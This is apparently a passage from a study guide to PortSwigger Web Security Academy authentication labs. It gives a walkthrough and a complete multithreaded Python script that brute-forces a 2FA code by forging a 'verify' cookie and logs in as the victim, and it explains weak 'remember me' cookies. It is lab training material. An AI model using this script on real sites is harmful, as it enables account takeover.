















##### Tutorial

1. Log in with your own account (`wiener:peter`) and note the `verify` cookie value.
2. Change the `verify` cookie to `carlos` when submitting the 2FA code — the server trusts the cookie to decide which account to verify.
3. Brute-force the 4-digit `mfa-code` (0000–9999). A 302 response is the correct code; the script then opens `/my-account?id=carlos` to solve the lab.
4. Confirm Carlos's account page loads (lab solved).

**Script:**

```python
#!/usr/bin/env python3
"""
2FA broken logic — brute force mfa-code then auto-login (PortSwigger lab).

Usage:
  python3 2fa-broken-logic.py \
    --url https://<id>.web-security-academy.net/login2 \
    --cookie "session=...; verify=carlos" \
    --victim carlos --workers 20 [--open]

On hit: prints the 302, then GET /my-account?id=<victim> with the same session
(that request is the auto-login / lab solve step).
"""
from __future__ import annotations

import argparse
import sys
import threading
from pathlib import Path
from concurrent.futures import ThreadPoolExecutor
from urllib.parse import urlparse

try:
    import requests
    from requests import RequestException
except ImportError:
    print('error: pip3 install requests', file=sys.stderr)
    sys.exit(2)


def main() -> int:
    ap = argparse.ArgumentParser(description='2FA broken logic: brute force mfa-code + auto-login.')
    ap.add_argument('--url', required=True, help='https://<id>.web-security-academy.net/login2')
    ap.add_argument('--cookie', required=True, help='session=...; verify=carlos')
    ap.add_argument('--victim', default='carlos')
    ap.add_argument('--workers', type=int, default=20)
    ap.add_argument('--width', type=int, default=4)
    ap.add_argument('--timeout', type=float, default=20.0)
    ap.add_argument('--open', action='store_true', help='open browser on success')
    ap.add_argument('--cookie-out', default='', help='write session cookies as JSON here')
    args = ap.parse_args()

    p = urlparse(args.url)
    base = f'{p.scheme}://{p.netloc}'

    sess = requests.Session()
    sess.headers.update({
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Origin': base,
        'Referer': args.url,
    })
    # load the cookie into the jar (NOT the header) so Set-Cookie after login is honoured
    for part in args.cookie.split(';'):
        if '=' in part:
            k, v = part.split('=', 1)
            sess.cookies.set(k.strip(), v.strip())

    codes = [str(i).zfill(args.width) for i in range(10 ** args.width)]
    print(f'[*] target : {args.url}', flush=True)
    print(f'[*] verify : {args.victim}   codes: {len(codes)}   workers: {args.workers}', flush=True)

    lock = threading.Lock()
    state = {'stop': False, 'hit': None}

    def try_code(code):
        with lock:
            if state['stop']:
                return
        try:
            r = sess.post(args.url,
                          data={'verify': args.victim, 'mfa-code': code},
                          timeout=args.timeout, allow_redirects=False)
        except RequestException:
            return
        if r.status_code in (301, 302, 303, 307, 308):
            with lock:
                if state['stop']:
                    return
                state['stop'] = True
                state['hit'] = (code, r.status_code, r.headers.get('Location', ''))
            print(f'[+] HIT mfa-code={code}  status={r.status_code}  -> {r.headers.get("Location","")}', flush=True)
        return

    with ThreadPoolExecutor(max_workers=args.workers) as ex:
        list(ex.map(try_code, codes))

    if not state['hit']:
        print('[-] code not found', flush=True)
        return 1

    code, status, loc = state['hit']
    # auto-login / solve: open the account page with the same session
    acct = sess.get(f'{base}/my-account?id={args.victim}', timeout=args.timeout)
    ok = 'Your username is' in acct.text
    print(f'[*] GET /my-account?id={args.victim} -> {acct.status_code}  logged_in={ok}', flush=True)
    home = sess.get(base + '/', timeout=args.timeout)
    solved = 'Congratulations, you solved the lab' in home.text
    print(f'[*] solved={solved}', flush=True)

    if args.open:
        import webbrowser
        webbrowser.open(f'{base}/my-account?id={args.victim}')

    if args.cookie_out:
        import json
        jar = [{'name': c.name, 'value': c.value, 'domain': c.domain, 'path': c.path}
               for c in sess.cookies]
        Path(args.cookie_out).write_text(json.dumps(jar, indent=1), encoding='utf-8')
        print(f'[*] cookies -> {args.cookie_out}', flush=True)

    print(f'\nRESULT victim={args.victim} mfa-code={code} status={status} solved={solved}', flush=True)
    return 0


if __name__ == '__main__':
    sys.exit(main())
```

**How to run:**

```bash
python3 2fa-broken-logic.py --url https://<id>.web-security-academy.net/login2 --cookie "session=...; verify=carlos" --victim carlos --workers 20
```

##### Reference

<details>
<summary>10. Authentication Vulnerabilities - Lab #8 2FA broken logic | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=dpcrsQ2nhBo
Purpose: In this video, we cover Lab #8 in the Authentication module of the Web Security Academy. This lab's two-factor authentication is vulnerable due to its flawed logic. To solve the lab, we access Carlos's account page.

</details>

<details>
<summary>11. 2FA broken logic | Short Version — Michael Sommer</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=Qf4Z2lcJeis
Purpose: This video shows the lab solution of "2FA broken logic" from Web Security Academy (Portswigger)

</details>

</details>

### Brute-forcing 2FA verification codes

As with passwords, websites need to take steps to prevent brute-force of the 2FA verification code. This is especially important because the code is often a simple 4 or 6-digit number. Without adequate brute-force protection, cracking such a code is trivial.

Some websites attempt to prevent this by automatically logging a user out if they enter a certain number of incorrect verification codes. This is ineffective in practice because an advanced attacker can even automate this multi-step process by creating macros for Burp Intruder. The Turbo Intruder extension can also be used for this purpose.

## Vulnerabilities in other authentication mechanisms

In addition to the basic login functionality, most websites provide supplementary functionality to allow users to manage their account. For example, users can change their password or reset their password when they forget it. These mechanisms can also introduce vulnerabilities that can be exploited by an attacker.

Websites usually take care to avoid well-known vulnerabilities in their login pages. But is easy to overlook the fact that you need to take similar steps to ensure that related functionality is equally as robust. This is espicially important in cases where an attacker is able to create their own account and, consequently has easy access to study these additional pages.

### Keeping users logged in

A common feature is the option to stay logged in even after closing a browser session. This is usually a simple checkbox labeled something like "Remember me" or "Keep me logged in".

This functionality is often implemented by generating a "remember me" token of some kind, which is then stored in a persistent cookie. As possessing this cookie effectively allows you to bypass the entire login process, it is best practice for this cookie to be impractical to guess. However, some websites generate this cookie based on a predicatable concatenation of static values, such as the username and a timestamp. Some even use the password as part of cookie. This approach is particularly dangerous if an attacker is able to create their own account because they can study their own cookie and potentially, deduce how it is generated. Once they work out the formula, they can try to brute-force other users cookie to gain access to their accounts.

### Keeping users logged in - Continue

Some websites assume that if the cookie is encrypted in some way it will not be guessable even if it does use static values. While this may be true if done correctly, naively "encrypting" the cookie using a simple two-way encoding like Base64 offers no protection whatsoever. Even using proper encryption with a one-way hash function is not completely bulletproof. If the attacker is able to easily identify the hashing algorithm, and no salt is used, they can potentially brute-force the cookie by simply hashing their wordlists. This method can be used to bypass login attempt limits if a similar limit isn't applied to cookie guesses.

Even if the attacker is not able to create their own account, they may still be able to exploit this vulnerability. Using the usual techniques, such as XSS, an attacker could steal another user's "remember me" cookie and deduce how the cookie is constructed from that. If the website was built using an open-source framework, the key details of the cookie construction may even be publicly documented.

##### Lab: Brute-forcing a stay-logged-in cookie

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

<details>
<summary>Lab details, screenshots & walkthrough 0.8</summary>

To solve the lab, brute-force Carlos's cookie to gain access to his *My account* page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

**Screenshots:**











##### Tutorial

1. Log in with `wiener:peter` and inspect the `stay-logged-in` cookie — it is base64 of `username:md5(password)`.
2. The cookie is `base64(carlos:<md5(candidate-password)>)`. Send it with each candidate password and watch for a response that does NOT contain `Log in`.
3. The matching password is the one whose cookie returns the account page (no `Log in`).
4. Open **My account** as Carlos to solve the lab.

**Script:**

```python
#!/usr/bin/env python3
"""
